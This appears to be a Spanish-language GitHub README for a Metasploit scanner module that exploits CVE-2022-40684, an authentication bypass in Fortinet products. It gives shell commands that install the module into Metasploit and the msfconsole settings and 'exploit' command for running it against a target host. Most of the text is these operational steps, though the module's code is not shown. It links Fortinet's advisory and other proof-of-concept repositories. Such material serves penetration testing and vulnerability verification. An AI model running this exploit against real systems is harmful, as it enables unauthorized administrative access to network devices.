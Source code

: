 # CVE-2022-40684-metasploit-scanner

Una omisión de autenticación usando una ruta o canal alternativo en el producto de Fortinet.

# Preparación de la PoC

```bash
git clone https://github.com/TaroballzChen/CVE-2022-40684-metasploit-scanner
cd CVE-2022-40684-metasploit-scanner
mkdir -p ~/.msf4/modules/auxiliary/scanner/http
cp fortinet_product_auth_bypass.py ~/.msf4/modules/auxiliary/scanner/http/
chmod +x ~/.msf4/modules/auxiliary/scanner/http/fortinet_product_auth_bypass.py
msfconsole
```

# Uso de la PoC

```bash
set rhosts <vuln ip/host>
set rport <vuln port>
set rssl <default: true for https>
set username <default: admin>
exploit
```
# Resultado
![poc](https://user-images.githubusercontent.com/4558401/199529522-039b3769-2590-4240-a2f9-fe075bb36d43.png)

# Referencias 

- https://www.fortiguard.com/psirt/FG-IR-22-377
- https://github.com/horizon3ai/CVE-2022-40684
- https://github.com/carlosevieira/CVE-2022-40684
- https://github.com/Chocapikk/CVE-2022-40684
